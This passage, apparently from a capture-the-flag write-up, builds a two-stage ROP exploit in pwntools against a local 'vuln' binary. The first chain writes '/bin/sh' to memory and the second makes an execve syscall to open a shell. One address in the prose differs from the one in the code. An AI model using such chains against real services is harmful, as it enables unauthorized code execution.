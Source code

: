 `0x6b7010` is picked. Now look for `read` and `win`
```
gef➤  info address read
Symbol "read" is at 0x44a6a0 in a file compiled without debugging.
gef➤  info address win
Symbol "win" is at 0x400c40 in a file compiled without debugging.
```
Finally the rop chain will be `read(0, 0x607010, 9)` and then `exceve("/bin/sh", NULL, NULL)`. However this is too long if the two chains are combined. Therefore at the end of the first chain we return to `win` and we'll have another 360 bytes to use.
```python
from pwn import *

# gadgets
pop_rax = 0x4163f4
pop_rdi = 0x400696
pop_rsi = 0x410ca3
pop_rdx = 0x44a6b5

# functions
win = 0x400c40
read = 0x44a6a0
syscall = 0x40137c

# writable
writable = 0x6b7010

io = process('./vuln')
io.sendlineafter(b'guess?\n', b'84')
io.recvuntil(b'Name? ')
# read(0, writable, 9)
payload  = b'A'*120
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(writable)
payload += p64(pop_rdx)
payload += p64(9)
payload += p64(read)
# return to win after this
payload += p64(win)
io.sendline(payload)

log.info(f'Length: {len(payload)}')

sleep(1)
io.sendline(b'/bin/sh\x00')

io.recvuntil(b'Name? ')
# make syscall: execve(writable, NULL, NULL)
payload  = b'A'*120
payload += p64(pop_rax)
payload += p64(0x3b) # 59: execve
payload += p64(pop_rdi)
payload += p64(writable)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx)
payload += p64(0)
payload += p64(syscall)
io.sendline(payload)
log.info(f'Length: {len(payload)}')

io.interactive()
```